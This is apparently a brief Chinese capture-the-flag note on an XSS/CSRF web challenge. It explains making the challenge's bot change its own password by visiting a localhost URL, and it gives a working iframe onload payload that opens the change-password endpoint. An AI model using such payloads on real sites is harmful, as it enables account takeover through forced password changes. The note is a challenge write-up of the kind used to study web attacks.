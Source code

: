 tags:: [[CTFWEB/XSS]], [[CTFWEB/CSRF]]

- # 思路
- 让爬虫修改自己的密码为123123即可登陆
- 爬虫没有外网连接，需要让其访问^^127.0.0.1^^
- # Payload
- ```html
  <iframe	onload="window.open('http://127.0.0.1/api/change.php?p=123123')"></iframe>
  ```
